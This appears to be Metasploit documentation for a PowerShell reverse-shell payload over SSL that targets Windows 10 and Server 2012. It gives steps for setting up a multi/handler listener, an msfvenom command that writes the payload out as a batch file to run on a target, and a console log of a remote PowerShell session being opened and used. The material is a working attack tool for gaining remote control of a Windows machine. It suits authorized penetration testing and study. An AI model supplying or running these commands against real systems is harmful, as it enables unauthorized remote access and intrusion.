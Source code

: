 ## Vulnerable Application

This powershell payload is suitable for the following environments:

* Windows 2012
* Windows 10

Older versions of Windows (e.g Windows 7) may have issues establishing the SSL connection.
For these versions using the non-SSL payload (cmd/windows/powershell_reverse_tcp) is recommended.

## Verification Steps

1. Do: `use exploit/multi/handler`
2. Do: `set payload cmd/windows/powershell_reverse_tcp_ssl`
2. Do: `set LHOST [IP]`
3. Do: `set LPORT [PORT]`
4. Do: `run`

## Scenarios

### Generating a batch file with msfvenom

```
msfvenom -p cmd/windows/powershell_reverse_tcp_ssl LHOST=192.168.0.2 LPORT=4444 -o powershell_reverse_tcp_ssl.bat
```

The output batch file can be executed directly on the target, or pasted as a command.

### Example usage on Windows 10 target

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload cmd/windows/powershell_reverse_tcp_ssl
payload => cmd/windows/powershell_reverse_tcp_ssl
msf6 exploit(multi/handler) > set LHOST 192.168.0.2
LHOST => 192.168.0.2
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > run
[*] Started reverse SSL handler on 192.168.0.2:4444
[*] Powershell session session 1 opened (192.168.0.2:4444 -> 192.168.0.2:49736 ) at 2021-11-02 13:01:28 +0000

msf6 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

User @ DESKTOP-5E3GRS6
PS C:\Users\User> exit
[*] 192.168.0.2 - Powershell session session 1 closed.
```

## Options

### LOAD_MODULES

A list of powershell modules (separated by a commas) to download.

